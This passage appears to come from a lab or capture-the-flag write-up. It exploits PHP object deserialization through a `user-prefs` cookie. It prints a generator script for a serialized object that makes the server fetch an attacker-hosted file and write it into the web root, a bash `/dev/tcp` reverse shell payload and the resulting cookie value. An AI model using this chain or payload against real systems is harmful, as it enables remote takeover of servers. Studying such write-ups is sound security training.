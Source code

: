 The `__wakeup` method is called when an object is unserialized. On waking up, the unserialize `AvatarInterface` object would create an `Avatar` object and call `save` on it. I could control the `$tmp` and `$imgPath` properties. So I could use that to read a file and save it where I wanted.

I created a PHP script to generate the serialized code I needed.

```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = 'http://10.10.14.2/rce';
    public $imgPath = '/var/www/html/test.php';

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

echo urlencode(base64_encode(serialize(new AvatarInterface()))) . "\n";
```

This created a serialized `AvatarInterface` that would read a file from my machine, and save its contents to `/var/www/html/test.php` on the server. 

I created the file to launch a reverse shell and started a web server on my machine.

```php
<?php

`bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'`;
```
I generated the cookie value and used it to set the `user-prefs` cookie in my browser.

```bash
$ php createCookie.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyMToiaHR0cDovLzEwLjEwLjE0LjIvcmNlIjtzOjc6ImltZ1BhdGgiO3M6MjI6Ii92YXIvd3d3L2h0bWwvdGVzdC5waHAiO30%3D
```

I opened the home page of the site and saw that it requested the `rce` file from my web server.
